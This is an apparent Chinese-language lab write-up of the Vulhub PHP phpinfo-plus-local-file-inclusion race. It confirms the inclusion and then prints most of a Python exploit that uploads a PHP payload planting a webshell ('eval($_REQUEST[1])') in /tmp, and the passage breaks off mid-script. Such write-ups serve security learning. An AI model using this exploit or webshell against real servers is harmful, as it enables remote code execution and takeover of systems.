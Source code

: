 
<img src="https://i-blog.csdnimg.cn/blog_migrate/871af1c34ad32b3442645527382b2298.png" alt="" style="max-height:400px; box-sizing:content-box;" />


访问 localhost:8080/phpinfo.php

<img src="https://i-blog.csdnimg.cn/blog_migrate/572972fcaef4b5c84e954affdb710a31.png" alt="" style="max-height:474px; box-sizing:content-box;" />


```cobol
/lfi.php?file=phpinfo.php
```

上面文件确定了存在文件包含

这里

```undefined
phpinfo
 
 
文件包含
```

两个条件都确定了 所以我们可以通过exp直接上传木马了

下面是exp  是我通过gpt修改的py3环境 因为我的py2 无法实现

 [https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py%22%3Ehttps://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py%3C/a%3E](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py%22%3Ehttps://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py%3C/a%3E) 

```cobol
py3 exp.py ip 8080 100
```

```cobol
#!/usr/bin/python3
import sys
import threading
import socket
 
 
def setup(host, port):
    TAG = "安全测试"
    PAYLOAD = """%s\r
<?php file_put_contents('/tmp/shell', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA = """-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding = "A" * 5000
    REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """ + padding + """\r
HTTP_ACCEPT_LANGUAGE: """ + padding + """\r
HTTP_PRAGMA: """ + padding + """\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" % (len(REQ1_DATA), host, REQ1_DATA)
    # modify this to suit the LFI script
    LFIREQ = """GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```